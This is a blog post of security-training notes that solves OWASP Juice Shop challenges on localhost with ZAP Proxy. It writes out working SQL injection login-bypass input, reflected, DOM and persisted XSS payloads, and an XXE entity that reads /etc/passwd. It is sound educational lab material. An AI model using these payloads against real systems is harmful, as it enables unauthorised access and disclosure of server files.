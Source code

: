 ```yaml
---
article_num: 95
layout:            post
title:             Security Training Day 2
lang:                en
date:              2019-01-23 20:41:20 +0100
categories:        [tech]
tags:              [security, http, browser]
permalink:         /2019/01/23/security-training-day-2/
comments:          true
excerpt:           >
    My study notes of security training (day 2), including some ways of SQL
    injection, Cross-site scripting (XSS), and XML External Entity (XXE).
image:             /assets/bg-security-265130_1280.jpg
cover:             /assets/bg-security-265130_1280.jpg
article_header:
  type: overlay
  theme: dark
  background_color: "#203028"
  background_image:
    gradient: "linear-gradient(135deg, rgba(0, 0, 0, .6), rgba(0, 0, 0, .4))"
---
```


## Overview

This post is mainly a review of what have been taught during the security
training in day 2. In aims to share knowledge and make us aware of the
importance of security. After reading this article, you will understand:

- SQL Injection
- XSS: Cross-Site Scripting
- XXE: XML External Entity

Reminder: the security tools used here are [ZAP
Proxy](https://github.com/zaproxy/zaproxy) and [Juice
Shop](https://github.com/bkimminich/juice-shop) -- probably the most modern and
sophisticated insecure web application.

## SQL Injection

A [SQL injection attack](https://www.owasp.org/index.php/SQL_Injection)
consists of insertion or "injection" of a SQL query via the input data from the
client to the application. A successful SQL injection exploit can read
sensitive data from the database, modify database data (Insert/Update/Delete),
execute administration operations on the database (such as shutdown the DBMS),
recover the content of a given file present on the DBMS file system and in some
cases issue commands to the operating system. SQL injection attacks are a type
of injection attack, in which SQL commands are injected into data-plane input
in order to effect the execution of predefined SQL commands. This section solves
SQL Injection challenge in Juice Shop.

**Login Admin.** Log in with the administrator's user account. Firstly, go to
login page <http://localhost:3000/#/login>, enter an arbitrary login and
password, such as `foo@example.com` and `123`. UI shows "Invalid user or
password". Now, inspect HTTP request and response in ZAP Proxy where the url of
the entry is <http://localhost:3000/rest/user/login>. Open request editor and
edit the request body (excerpt 1). By the way, we can also imagine the SQL
query should be similar to the following form (excerpt 2).

```json
{
  "email" : "foo@example.com",
  "password" : "123"
}
```

```sql
SELECT *
  FROM Users
 WHERE email='foo@example.com' AND pass='123'
```

The SQL injection can be done as the first query parameter `email`. Use simple
quote `'` to end the quote (just in case), use criterion `OR 1=1` to ensure the
WHERE clause is always true and does not depend on email value, and use comment
`--` to comment the rest of the query. So the modification and expected SQL
looks like the following:

```json
{
  "email" : "' OR 1=1; --",
  "password" : "123"
}
```

```sql
SELECT *
  FROM Users
 WHERE email='' OR 1=1; -- ' AND pass='123'
```

The response returns the email of admin account with the correct token:

```json
{
  "authentication" : {
    "token" : "eyJhbG...",
    "bid" : 1,
    "umail" : "admin@juice-sh.op"
  }
}
```

Understand the usage of token `eyJhbG...` by inspecting the source code of
`main.js`, and finds out that user token will be saved in browser's local
storage after login action:

```js
this.userService.login(this.user).subscribe(function (n) {
  localStorage.setItem('token', n.token),
  l.cookieService.put('token', n.token),
  sessionStorage.setItem('bid', n.bid),
  l.userService.isLoggedIn.next(!0),
  l.router.navigate(['/search'])
}, function (n) { ... }
```

Therefore, we can set token to local storage manually to be able to simulate the
login action in browser console. After that, the login is successful as
expected.

```js
localStorage.setItem('token', 'eyJhbG...');
```

## Cross-Site Scripting (XSS)

[Cross-Site Scripting
(XSS)](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)) attacks are
a type of injection, in which malicious
scripts are injected into otherwise benign and trusted websites. XSS attacks
occur when an attacker uses a web application to send malicious code, generally
in the form of a browser side script, to a different end user. Flaws that allow
these attacks to succeed are quite widespread and occur anywhere a web
application uses input from a user within the output it generates without
validating or encoding it. There're 3 types of XSS:

- Reflected XSS
- Persisted XSS
- DOM Based XSS

Different XSS filter can be found at [OWASP - XSS Filter Evasion
CheatSheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet).
This section solves different XSS challenges in Juice Shop.

**XSS Tier 0.** Perform a reflected XSS attack with
``<iframe src="javascript:alert(`xss`)">``. This can be done by providing a
malicious query parameter Order ID (`id`) in Track Result module
<http://localhost:3000/#/track-result?id=myOrder>. Using the following query
param will trigger a reflected XSS (value is url-encoded):

    http://localhost:3000/#/track-result?id=%3Ciframe%20src%3D%22javascript:alert(%60xss%60)%22%3E

**XSS Tier 1**. Perform a DOM XSS attack with
``<iframe src="javascript:alert(`xss`)">``. This can be done by manipulating the
query param `q` in "search" module (<http://localhost:3000/#/search?q=apple>).
The result is not escaped, which leads to XSS.

<p align="center">
  <img src="/assets/20190123-xss-1.png"
       alt="XSS Tier 1">
</p>

**XSS Tier 2.** Perform a persisted XSS attack with
``<iframe src="javascript:alert(`xss`)">`` bypassing a client-side security
mechanism. This can be done by manipulating the user creation form. Go to
register page <http://localhost:3000/#/register> and enter username / password
as `foo@example.com` and `12345`. Then, modify the HTTP request in ZAP Proxy and
resend the request to server:

```json
{
  "email" : "foo@example.com<iframe src=\"javascript:alert(`xss`)\">",
  "password" : "12345",
  "passwordRepeat" : "12345",
  "securityQuestion" : {
    "id" : 1,
    "question" : "Your eldest siblings middle name?",
    "createdAt" : "2019-01-23T19:56:54.665Z",
    "updatedAt" : "2019-01-23T19:56:54.665Z"
  },
  "securityAnswer" : "12345"
}
```

When internal users visit the admin page
<http://localhost:3000/#/administration>, an XSS will be triggered.

## XML External Entity (XXE) Processing

An [XML External Entity attack][1] is a type of attack against an application
that parses XML input. This attack occurs when XML input containing a reference
to an external entity is processed by a weakly configured XML parser. This
attack may lead to the disclosure of confidential data, denial of service,
server side request forgery, port scanning from the perspective of the machine
where the parser is located, and other system impacts. This section solves XXE
challenge in Juice Shop.

**XXE Tier 1.** Retrieve the content of `C:\Windows\system.ini` or `/etc/passwd`
from the server. First of all, we need to feed an entry-point for uploading
files, so that our XML file can be read by the server. One possibility is via
Customer Complain <http://localhost:3000/#/complain>, where a file can be
uploaded. By default, the input element only accepts file types `.pdf` and
`.zip`. This check can be skipped by choosing format option "All Support Types"
when browsing files (maybe different according to OS, I'm using macOS).

```html
<input _ngcontent-c17=""
       accept=".pdf,.zip"
       id="file"
       ng2fileselect=""
       type="file">
```

Then, choose a file to upload. For example, `~/feedback.xml`:

```xml
<msg>hi</msg>
```

Once uploaded, find out the server response and check if it reads the value.
From the response of <http://localhost:3000/file-upload>, we can extract the
following value:

> Error: B2B customer complaints via file upload have been deprecated for security reasons: &lt;?xml version=&quot;1.0&quot; encoding=&quot;UTF-8&quot;?&gt;&lt;msg&gt;Hi&lt;/msg&gt; (feedback.xml)

As you can see, the content of feedback has been extracted successfully. Further
more, the content has been expanded: XML header has been added. We can suppose
that XXE is possible in this case. Now, change the content of XML to the
following, where system entity `xxe` is defined and discloses the system
password file:

```xml
<!DOCTYPE msg [
<!ELEMENT msg ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<msg>&xxe;</msg>
```

Upload the same file again with the new content, then inspect the HTTP response
again:

> Error: B2B customer complaints via file upload have been deprecated for security reasons: &lt;?xml version=&quot;1.0&quot; encoding=&quot;UTF-8&quot;?&gt;&lt;!DOCTYPE msg [&lt;!ELEMENT msg ANY&gt;&lt;!ENTITY xxe SYSTEM &quot;file:///etc/passwd&quot;&gt;]&gt;&lt;msg&gt;### User Database# # Note that this file is consulted directly only when the sys... (feedback.xml)

The content is retrieved successfully.

## Conclusion

In this article, we saw the definition and challenges of three common security
problems: SQL Injection, Cross-Site Scripting (XSS) and XML External Entity
(XXE) processing. Through these challenges, we saw the impact of security
problems. Hope you enjoy this article, see you the next time!

[1]: https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing
